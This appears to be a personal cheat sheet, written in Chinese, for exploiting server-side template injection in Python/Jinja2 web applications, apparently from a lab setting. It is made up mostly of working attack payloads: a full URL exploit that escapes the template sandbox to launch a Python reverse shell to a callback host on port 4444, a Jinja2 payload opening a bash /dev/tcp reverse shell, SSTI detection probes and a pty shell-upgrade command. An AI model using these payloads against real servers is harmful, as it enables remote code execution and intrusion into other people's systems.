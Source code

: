 ### web页面

1. 通过参数上传

     

    ```
    http://192.168.195.171:5000/sh4d0w$s?l333tt=	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.195.170\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    ```

    2. 要求：

        1. python
        2. ssti漏洞：通过   变量={{8*9}}来判断是否有模板注入漏洞
        3. 知道变量值
            3. 作用：
                1. 反弹shell可以通过nc建立连接来进行远程连接

            4. 使用
                1. 记得修改反连主机的ip和端口。

### ssti漏洞

#### 检测payload

1. url传入参数的检测payload，同传入该参数查看是否爆出错误。几乎是所有的模板开发语言可以用这个payload

```多种模板语言的标识组合
{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]
```

2. 同样，我们来查看运算是否被执行来确定是否有ssti漏洞

```jinja2
${7*7},{{7*7}}
```

#### 反弹shellpayload

```jinja2
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.195.170/4444 0>&1"')}}
```







### 终端执行

1. 修改终端python为交互模式

    ```python
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```
